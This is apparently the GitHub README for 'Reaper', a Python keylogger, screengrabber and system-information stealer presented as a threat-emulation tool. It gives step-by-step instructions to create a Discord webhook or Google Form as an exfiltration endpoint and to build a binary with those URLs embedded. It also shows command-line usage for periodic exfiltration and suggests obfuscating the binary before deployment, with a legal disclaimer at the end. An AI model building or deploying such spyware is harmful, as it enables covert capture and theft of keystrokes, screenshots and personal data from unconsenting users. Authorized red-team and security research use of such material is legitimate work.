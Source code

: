 # Reaper - A multi-platform keylogger and screengrabber

![Python Version](https://img.shields.io/badge/python-3.9+-blue?style=for-the-badge&logo=python)
[![CodeFactor Grade](https://img.shields.io/codefactor/grade/github/EONRaider/BCA-Reaper?label=CodeFactor&logo=codefactor&style=for-the-badge)](https://www.codefactor.io/repository/github/EONRaider/BCA-Reaper)
![OS](https://img.shields.io/badge/GNU%2FLinux-red?style=for-the-badge&logo=linux)
![OS](https://img.shields.io/badge/Windows-blue?style=for-the-badge&logo=windows)

[![Reddit](https://img.shields.io/badge/Reddit-EONRaider-FF4500?style=flat-square&logo=reddit)](https://www.reddit.com/user/eonraider)
[![Discord](https://img.shields.io/badge/Discord-EONRaider-7289DA?style=flat-square&logo=discord)](https://discord.gg/KVjWBptv)
[![Twitter](https://img.shields.io/badge/Twitter-eon__raider-38A1F3?style=flat-square&logo=twitter)](https://twitter.com/intent/follow?screen_name=eon_raider)

Reaper is a **multi-platform keylogger, screengrabber and information gatherer** 
written in Python 3. Binaries for Linux and Windows platforms can be built through 
an embedded script that executes PyInstaller.

All captured data is exfiltrated to a **Discord** server and/or **Google Forms** instance through HTTPS.

## Demo
![demo]()

## Setup and Build
The only requirements to set up and build are (I) a free Discord server and/or a suitable 
Google Forms instance and (II) building the binary with the URLs as arguments.

### I. Set up a Discord server and/or Google Forms instance
You need at least one of the methods for successful exfiltration.
- **Discord:** Head over to https://www.discord.com and create a new Discord account and 
server, if necessary. [Create a Webhook URL](https://www.digitalocean.com/community/tutorials/how-to-use-discord-webhooks-to-get-notifications-for-your-website-status-on-ubuntu-18-04) 
for any suitable channel and copy the URL.

  ![webhook_Setup](https://github.com/EONRaider/static/blob/49511f621c43ce8a9fac138fa4b14f369edf6cbf/reaper/webhook_setup.png)

- **Google Forms:** Create a form on https://docs.google.com/forms with a free Google account. 
Set up as many questions as you need, with any names. Copy the form URL and that's it. *The 
exfiltration works as long as the answer field for the first question is of type **Paragraph**.*

  ![forms_setup](https://github.com/EONRaider/static/blob/9842916f424823ae8d72f8cd0e73a66371b9bcc7/reaper/forms_setup.png)

### II. Build the binary
*You need to install all dependencies before building*. Dependency management works 
with both [Poetry](https://python-poetry.org/) (recommended) and [Virtualenv](https://virtualenv.pypa.io/en/latest/). 
```shell
git clone https://github.com/EONRaider/BCA-Reaper.git
cd BCA-Reaper
poetry install <--or--> pip install -r requirements.txt
```

With all dependencies in place the `build.py` file takes care of the rest.
```shell
python build.py --webhook YOUR-WEBHOOK-URL --forms YOUR-FORM-URL
```
The result is a binary file named `reaper` that is ready for execution. Optionally 
obfuscate and deploy in accordance with your threat emulation activity's ROE. Refer 
to the [Legal Disclaimer](https://github.com/EONRaider/BCA-Reaper/tree/master#legal-disclaimer) 
below.

## Usage
```
usage: reaper.py [-h] [-w <webhook_url>] [-f <google_forms_url>] [-e <seconds>]

BCA Reaper - Log keystrokes, take screenshots, grab system information and exfiltrate to Discord 
and Google Forms

optional arguments:
  -h, --help            show this help message and exit
  -w <webhook_url>, --webhook <webhook_url>
                        URL of a Webhook for the Discord server.
  -f <google_forms_url>, --forms <google_forms_url>
                        URL of a remote instance of Google Forms.
  -e <seconds>, --exfil-time <seconds>
                        Time in seconds to wait between periodic executions of the exfiltration 
                        of logged data. Defaults to 30 seconds. Set to None to perform a 
                        single operation.
```

## Development mode (optional)
You could optionally run Reaper directly from a local Python 3 interpreter. 
[Install all dependencies](https://github.com/EONRaider/BCA-Reaper/tree/master#i-install-dependencies) 
and run the `src/reaper.py` file with the required arguments for the Discord Webhook 
and/or Google Forms URLs.

```shell
python reaper.py --webhook YOUR-WEBHOOK-URL --forms YOUR-GOOGLE-FORMS-URL
```

## Legal Disclaimer

The use of code contained in this repository, either in part or in its totality,
for engaging targets without prior mutual consent is illegal. **It is
the end user's responsibility to obey all applicable local, state and
federal laws.**

Developers assume **no liability** and are not
responsible for misuses or damages caused by any code contained
in this repository in any event that, accidentally or otherwise, it comes to
be utilized by a threat agent or unauthorized entity as a means to compromise
the security, privacy, confidentiality, integrity, and/or availability of
systems and their associated resources. In this context the term "compromise" is
henceforth understood as the leverage of exploitation of known or unknown vulnerabilities
present in said systems, including, but not limited to, the implementation of
security controls, human- or electronically-enabled.

The use of this code is **only** endorsed by the developers in those
circumstances directly related to **educational environments** or
**authorized penetration testing engagements** whose declared purpose is that
of finding and mitigating vulnerabilities in systems, limiting their exposure
to compromises and exploits employed by malicious agents as defined in their
respective threat models.
